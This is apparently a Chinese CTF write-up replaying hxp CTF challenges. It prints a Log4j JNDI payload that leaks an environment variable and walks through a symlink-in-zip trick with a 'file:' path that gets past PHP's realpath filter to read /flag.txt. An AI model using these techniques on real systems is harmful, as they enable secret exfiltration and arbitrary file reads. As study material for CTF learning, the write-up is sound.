




# 前言

没做比赛，今天在看Go的时候偶然翻Z3ratu1师傅的博客发现更了hxp的复现wp，正好最近太久没有做题了，也来复现学习一下。


# Log 4 sanity check

MISC里面的一个题但是是log4j2，附件下载下来class反编译：

```java
//
// Source code recreated from a .class file by IntelliJ IDEA
// (powered by FernFlower decompiler)
//

import java.util.Scanner;
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class Vuln {
    public Vuln() {
    }

    public static void main(String[] var0) {
        try {
            Logger var1 = LogManager.getLogger(Vuln.class);
            System.out.println("What is your favourite CTF?");
            String var2 = (new Scanner(System.in)).next();
            if (var2.toLowerCase().contains("dragon")) {
                System.out.println("<3");
                System.exit(0);
            }

            if (var2.toLowerCase().contains("hxp")) {
                System.out.println(":)");
            } else {
                System.out.println(":(");
                var1.error("Wrong answer: {}", var2);
            }
        } catch (Exception var3) {
            System.err.println(var3);
        }

    }
}

```

直接error触发，但是尝试了似乎不能rce。

Dockerfile里面的最后一句`CMD ynetd -np y -lm -1 -lpid 64 -lt 10 -t 30 "FLAG='$(cat /flag.txt)' /home/ctf/run.sh"`，说明把`/flag.txt`里的内容写进了环境变量`FLAG`里面。

参考https://www.anquanke.com/post/id/263325#h2-4，敏感数据外带出来：`${jndi:${env:FLAG}}`

本来是要dns外带的，然后发现报错信息直接带出flag了：




# unzipper

没有太细看题目（毕竟是赛后复现有点浮躁，更多的是学习题目的思路了），所以配置文件没有太细读。


先捋一下思路吧。首先是个index.php：

```php
<?php
session_start() or die('session_start');

$_SESSION['sandbox'] ??= bin2hex(random_bytes(16));
$sandbox = 'data/' . $_SESSION['sandbox'];
$lock = fopen($sandbox . '.lock', 'w') or die('fopen');
flock($lock, LOCK_EX | LOCK_NB) or die('flock');

@mkdir($sandbox, 0700);
chdir($sandbox) or die('chdir');

if (isset($_FILES['file']))
    system('ulimit -v 8192 && /usr/bin/timeout -s KILL 2 /usr/bin/unzip -nqqd . ' . escapeshellarg($_FILES['file']['tmp_name']));
else if (isset($_GET['file']))
    if (0 === preg_match('/(^$|flag)/i', realpath($_GET['file']) ?: ''))
        readfile($_GET['file']);

fclose($lock);

```

创建一个沙盒然后往里面解压zip。又给了一个任意文件读取的操作，但是有限制。

正常的思路可能就是解压文件穿越，我一开始也是这么想的，但是z3师傅的wp上提到了：

```php
        location = /index.php {
                include snippets/fastcgi-php.conf;
                fastcgi_pass unix:/run/php/php7.4-fpm.sock;
        }
```

只有index.php可以被解析，所以解压穿越rce不行。那么下一个思路就是利用软连接来读取`/flag.txt`了（因为给的权限是004，正好可以读取）。

首先需要知道路径（穿越也可以，但是太麻烦了）。直接读session就可以知道沙盒的路径：



```
?file=/var/lib/php/sessions/sess_xxx
```

这样就知道路径了，接下来就上传一个带软连接的压缩包解压后直接读软连接即可。

但是并没有这么简单：

```php
    if (0 === preg_match('/(^$|flag)/i', realpath($_GET['file']) ?: ''))
        readfile($_GET['file']);
```

`realpath`返回的是规范化的绝对路径名，也处理了符号链接，所以会正常处理的话最后规范化得到的还是会带flag。


`realpath`有个问题就是不能识别各种协议，这将会导致它返回false，然后三元运算变成空字符串被匹配到导致了不能读取文件。

因此现在的思路就是，压缩包上传一个构造好的路径让realpath那里用协议不会返回false，然后在`readfile`那里用协议来读取软连接即可。

```shell
mkdir -p file:///var/www/html/data/ee82f45782f646535e3d60ee58be9290/feng
ln -s /flag.txt feng

root@VM-0-6-ubuntu:~# zip -y -r feng.zip feng file:
  adding: feng (stored 0%)
  adding: file:/ (stored 0%)
  adding: file:/var/ (stored 0%)
  adding: file:/var/www/ (stored 0%)
  adding: file:/var/www/html/ (stored 0%)
  adding: file:/var/www/html/data/ (stored 0%)
  adding: file:/var/www/html/data/de4e646eaeb13a2d2b0fc92169e5d406/ (stored 0%)
  adding: file:/var/www/html/data/de4e646eaeb13a2d2b0fc92169e5d406/feng/ (stored 0%)
root@VM-0-6-ubuntu:~#

```

上传上传然后直接`?file=file:///var/www/html/data/de4e646eaeb13a2d2b0fc92169e5d406/feng`即可。



postman的PHPSESSID记得和浏览器的一样。



# includer's revenge

参考文章：https://tttang.com/archive/1395/

没啥好说的，直接用这个nb的姿势就行了。

# counter

直接拿上面那题的都可以打穿。预期解之后有空再学习了。


# shitty blog

之后复现

